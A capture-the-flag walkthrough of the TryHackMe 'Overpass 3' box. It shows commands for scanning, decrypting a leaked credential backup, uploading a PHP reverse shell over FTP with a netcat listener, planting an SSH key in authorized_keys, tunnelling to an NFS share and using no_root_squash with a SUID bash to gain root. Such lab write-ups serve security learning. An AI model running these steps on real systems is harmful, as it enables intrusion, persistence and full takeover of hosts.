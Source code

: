 ### THM - Overpass 3 - Hosting
Difficulty: Medium 

#### Recon
We can start with nmap scan command:

```sudo nmap -vv -A -Pn -p- -oA overpass3_nmap 10.10.205.247```

![nmap_running](img/nmap_still_running.png)

While nmap still running we can see that port 80, 21, 22 is open. We can start doing some basic manual recon on the webserver port 80.

![source](img/web_source.png)

On the web page, it is safe to assume that paradox, Elf, MuirlandOracle, and James are the users. There is really nothing else to do on the web page. Before we move on to the nmap scan results, lets start our ffuf scan on the webserver. 

```ffuf -u http://10.10.205.247/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.txt,.html -ic -c```

Now while ffuf is running, We can move on to the nmapp scan results.

![nmap_results](img/nmap_results.png)

We can see that port 21 is open and running vsftpd 3.0.3. However, we can see that anonymous login is disabled. We can also see that port 22 is open and running OpenSSH 8.0 and port 80 is running Apache httpd 2.4.37. Let's check on the ffuf scan results.

![ffuf_results](img/ffuf_scan.png)

We can see that there is a directory called 'backups'. Let's check on that.

![backups](img/backups_dir.png)

Let's download that backup.zip file and see what's inside.

![backup_zip](img/backup_zip_folder.png)

We can see that there is an excel gpg encrypted file and a private key. Let's try to decrypt the file using the private key and convert it to csv file so we can open it.

```gpg --import priv.key```

```gpg --output CustomerDetials.xlsx --decrypt CustomerDetials.xlsx.gpg```

```ssconvert CustomerDetials.xlsx CustomerDetials.csv```

![gpg_decrypt](img/gpg_decrypt.png)

![csv_file](img/customer_details.png)

#### Exploit

We can see that there are some usernames and passwords in the csv file. We also know that paradox and muirlandoracle are the users from the web page. 

Let's see if we can ssh to paradox with the credential we found.

![ssh_paradox](img/ssh_paradox_failed.png)

Host doesn't allow ssh login with password without an authorized public key. Let's try to login to the ftp server using the credentials we found.

```ftp 10.10.205.247```
 
 After we login to the ftp server, we can see that it is the /var/www/html directory. It looks like we have permission to upload files. Let's upload a reverse shell and try to get a shell. We will be usig the php reverse shell from pentestmonkey [php_shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). Let's upload the shell and start a netcat listener.

![ftp_upload](img/second_ftp.png)

 ```nc -lvnp 4444```

 and call the shell from the browser. ```10.10.205.247/shell.php```

and we got a shell.

![shell](img/1foothold.png)

Since we have a foothold, let's make this shell feel a little more comfortable. We can use python to get a better shell.

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```

```stty raw -echo; fg```

![better_shell](img/better_shell.png)


#### Privilege Escalation

We can see that we are in the apache user with limited permissions. However, we can try to find a web flag. So let's do some enumeration. This flag is well hidden but after a while of enumeration, we can see that it is in ```/usr/share/httpd/web.flag```. The easier way to find this flag is to use the find command.

```find / -name *flag* 2>/dev/null```

Now that we found it, let's cat it and get the flag.

![web_flag](img/web_flag.png)

First flag down. Let's see what other users are on this host. We can use the command ```cat /etc/passwd``` to see all the users on the host.

![users](img/passwd.png)

We can see that paradox user is on there. Let's try to switch to paradox user with su command.

![su_paradox](img/su_paradox.png)

Great!...but we can see that there is no flag in paradox home directory. There is another user called James. However, we dont have James password. Let's do some more enumeration.

*Extra* Since we can't ssh to paradox with password, we can try to create a private key on our machine and add the generated public key to authorized_key in .ssh folder in paradox home directory. This way we can ssh to paradox without password.

```ssh-keygen paradox```

Let's add our public key to authorized_key file.

```echo {OUR_GENERATED_PUBLIC_KEY.pub} >> .ssh/authorized_keys```

Then let's try to ssh to paradox.

```ssh paradox@10.10.205.247 -i paradox```

![ssh_paradox](img/ssh_paradox.png)

Great! we can ssh to paradox with our private key. Now let's do some more enumeration to gain access to James account. 

After some basic enum we can see that there is a NFS share on the host with misconfigured permissions. Let's mount the share and see what's inside.

![nfs_share](img/nfs_share.png)

Let's try to mount the share.

```mkdir /tmp/mount```

```sudo mount -v -t nfs 10.10.205.247:/ /tmp/mount```

![failed_nfs](img/failed_nfs.png)

We got "mount.nfs: mount(2): No route to host" error. Let's see if we can list the nfs mount on the host.

```showmount -e 10.10.205.247```

And we get "clnt_create: RPC: Unable to receive" error. Let's check rpcinfo to see if rpcbind is running.

```rpcinfo -p```

![rpcinfo](img/rpcinfo.png)

We can see that rpcbind is running and nfs is on the normal nfs port 2049. After trying to run command ```netstat -l``` to see the listening port, we can see that the host doesn't have netstat installed. Hmm...let's try to reverse ssh to the port and try to mount the share again.

```ssh paradox@10.10.205.247 -i paradox -L 2049:localhost:2049```

```sudo mount -v -t nfs localhost:/ /tmp/mount```

![nfs_mount](img/mounted_nfs.png)

Let's go ahead and get that user flag.

![user_flag](img/user_flag.png)

We can also find a private key in the share. Let's try to use that key to ssh to James account.


```ssh james@10.10.205.247 -i /tmp/mount/.ssh/id_rsa```

Now that we have user flag and ssh to James user, let's try to get root flag. We know that this share is configured with "no_root_squash" option. We use it to get root shell by upload our own bash with SUID bit set and root as owner. Let's create a bash file with SUID bit set and root as owner.

```cp /bin/bash .```

```chmod +xs bash```

![james_folder](img/james_folder.png)

And we can run it with this command to get root.

```./bash -p```

![gcc_error](img/gcc_error.png)

However, we get gcc error. Let's try to use bash from the host.

On James.
```cp /bin/bash .```

```chmod 777 bash```

On our machine.

```chown root bash```

```chmod +xs bash```

On James.

```./bash -p```

![root_shell](img/root_shell.png)

Great! We are now root. Let's get the root flag.

![root_flag](img/root_flag.png)

And we got the root flag. Thanks for reading.


